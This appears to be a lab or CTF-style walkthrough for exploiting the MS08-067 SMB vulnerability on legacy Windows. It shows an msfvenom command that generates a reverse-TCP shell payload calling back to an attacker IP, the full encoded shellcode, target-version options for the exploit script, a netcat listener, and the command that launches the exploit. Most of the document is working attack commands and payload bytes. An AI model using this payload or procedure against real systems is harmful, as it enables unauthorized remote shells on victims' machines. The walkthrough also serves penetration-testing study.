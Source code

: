 # MS08-067


Reference:
https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN

![image](https://user-images.githubusercontent.com/66146701/199320162-acc77a25-a1d5-4b1b-9ac3-27094abbbf42.png)

### Shellcode Generation

To make the shellcode, We will use `msfvenom`. 

```
-p windows/shell_reverse_tcp - This will connect back to me with a shell.
    
LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread - defining the variables for the payload - my ip, the port, and how to exit.

-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.

-f py - Output in python format.

-v shellcode - Have the code set the variable shellcode, instead of the default, buf. I want this to match what it’s called in the code I’m using.

-a x86 and --platform windows - Describing the environment I’m attacking.
```


<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1872 bytes
shellcode =  ""
shellcode += "\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
shellcode += "\x81\x76\x0e\x92\xab\xaa\xc8\x83\xee\xfc\xe2\xf4"
shellcode += "\x6e\x43\x28\xc8\x92\xab\xca\x41\x77\x9a\x6a\xac"
shellcode += "\x19\xfb\x9a\x43\xc0\xa7\x21\x9a\x86\x20\xd8\xe0"
shellcode += "\x9d\x1c\xe0\xee\xa3\x54\x06\xf4\xf3\xd7\xa8\xe4"
shellcode += "\xb2\x6a\x65\xc5\x93\x6c\x48\x3a\xc0\xfc\x21\x9a"
shellcode += "\x82\x20\xe0\xf4\x19\xe7\xbb\xb0\x71\xe3\xab\x19"
shellcode += "\xc3\x20\xf3\xe8\x93\x78\x21\x81\x8a\x48\x90\x81"
shellcode += "\x19\x9f\x21\xc9\x44\x9a\x55\x64\x53\x64\xa7\xc9"
shellcode += "\x55\x93\x4a\xbd\x64\xa8\xd7\x30\xa9\xd6\x8e\xbd"
shellcode += "\x76\xf3\x21\x90\xb6\xaa\x79\xae\x19\xa7\xe1\x43"
shellcode += "\xca\xb7\xab\x1b\x19\xaf\x21\xc9\x42\x22\xee\xec"
shellcode += "\xb6\xf0\xf1\xa9\xcb\xf1\xfb\x37\x72\xf4\xf5\x92"
shellcode += "\x19\xb9\x41\x45\xcf\xc3\x99\xfa\x92\xab\xc2\xbf"
shellcode += "\xe1\x99\xf5\x9c\xfa\xe7\xdd\xee\x95\x54\x7f\x70"
shellcode += "\x02\xaa\xaa\xc8\xbb\x6f\xfe\x98\xfa\x82\x2a\xa3"
shellcode += "\x92\x54\x7f\x98\xc2\xfb\xfa\x88\xc2\xeb\xfa\xa0"
shellcode += "\x78\xa4\x75\x28\x6d\x7e\x3d\xa2\x97\xc3\xa0\xc2"
shellcode += "\x9c\xa5\xc2\xca\x92\xaa\x11\x41\x74\xc1\xba\x9e"
shellcode += "\xc5\xc3\x33\x6d\xe6\xca\x55\x1d\x17\x6b\xde\xc4"
shellcode += "\x6d\xe5\xa2\xbd\x7e\xc3\x5a\x7d\x30\xfd\x55\x1d"
shellcode += "\xfa\xc8\xc7\xac\x92\x22\x49\x9f\xc5\xfc\x9b\x3e"
shellcode += "\xf8\xb9\xf3\x9e\x70\x56\xcc\x0f\xd6\x8f\x96\xc9"
shellcode += "\x93\x26\xee\xec\x82\x6d\xaa\x8c\xc6\xfb\xfc\x9e"
shellcode += "\xc4\xed\xfc\x86\xc4\xfd\xf9\x9e\xfa\xd2\x66\xf7"
shellcode += "\x14\x54\x7f\x41\x72\xe5\xfc\x8e\x6d\x9b\xc2\xc0"
shellcode += "\x15\xb6\xca\x37\x47\x10\x4a\xd5\xb8\xa1\xc2\x6e"
shellcode += "\x07\x16\x37\x37\x47\x97\xac\xb4\x98\x2b\x51\x28"
shellcode += "\xe7\xae\x11\x8f\x81\xd9\xc5\xa2\x92\xf8\x55\x1d"
</code></pre></div></div>

<p>Will take this shellcode into the script, and paste it in replacing the default.</p>

### Guess Version

The exploit requires the version of Windows and the Language pack:

```
Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
```

### Run Exploit

```
nc -nlvp 443
```

```
python3 exploit.py 10.129.134.210 6 445
```
![image](https://user-images.githubusercontent.com/66146701/199322582-c1530a6e-da3a-47f5-bc7c-de2d2adfa82d.png)

![image](https://user-images.githubusercontent.com/66146701/199322800-3e1d2887-673d-4031-9926-724424d5b6c1.png)

